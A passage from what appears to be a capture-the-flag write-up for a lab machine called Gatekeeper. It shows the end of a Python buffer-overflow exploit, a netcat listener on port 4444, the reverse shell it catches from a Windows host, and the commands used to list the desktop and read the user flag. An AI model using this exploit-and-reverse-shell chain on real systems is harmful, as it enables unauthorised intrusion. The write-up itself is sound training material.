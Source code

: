 ```python
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except socket.error:
    print("[-] Could not connect.")
finally:
    s.close()

```

Start a listener on Kali:

    $ nc -nlvp 4444              
    listening on [any] 4444 ...

Execute exploit:

    $ python3 exploit.py
    Sending evil buffer...
    Done!

Catch it in the listener:

    nc -nlvp 4444
    Ncat: Version 7.93 ( https://nmap.org/ncat )
    Ncat: Listening on :::4444
    Ncat: Listening on 0.0.0.0:4444
    Ncat: Connection from 10.10.56.225.
    Ncat: Connection from 10.10.56.225:49207.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\Users\natbat\Desktop>whoami
    whoami
    gatekeeper\natbat

Get first flag:

    C:\Users\natbat\Desktop>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 3ABE-D44B
    
     Directory of C:\Users\natbat\Desktop
    
    05/14/2020  08:24 PM    <DIR>          .
    05/14/2020  08:24 PM    <DIR>          ..
    04/21/2020  04:00 PM             1,197 Firefox.lnk
    04/20/2020  12:27 AM            13,312 gatekeeper.exe
    04/21/2020  08:53 PM               135 gatekeeperstart.bat
    05/14/2020  08:43 PM               140 user.txt.txt
                   4 File(s)         14,784 bytes
                   2 Dir(s)  15,757,553,664 bytes free
    
    C:\Users\natbat\Desktop>type user.txt.txt
    type user.txt.txt
